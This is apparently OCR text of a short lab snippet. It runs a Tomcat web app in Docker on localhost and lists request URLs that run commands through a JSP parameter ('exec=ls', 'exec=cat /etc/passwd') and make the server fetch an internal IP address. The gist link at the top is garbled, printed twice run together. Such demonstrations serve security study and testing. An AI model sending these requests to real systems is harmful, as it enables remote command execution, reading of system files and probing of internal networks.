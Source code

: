 https://gist.github.com/hallazzang/c346e544b1c6fce8f304fdd5b2295fbhttps://gist.github.com/hallazzang/c346e544b1c6fce8f304fdd5b2295fb66

docker build -t mywebapp .
docker run --rm -it -p 127.0.0.1:8888:8080 -v $(pwd)/webapp:/usr/local/tomcat/webapps/webapp mywebapp
http://localhost:8888/webapp

http://localhost:8888/webapp/?help=runme.jsp?exec=ls
http://localhost:8888/webapp/?help=runme.jsp?exec=cat%20/etc/passwd

http://localhost:8888/webapp/?help=http://172.18.0.3:80/jsp/introduction
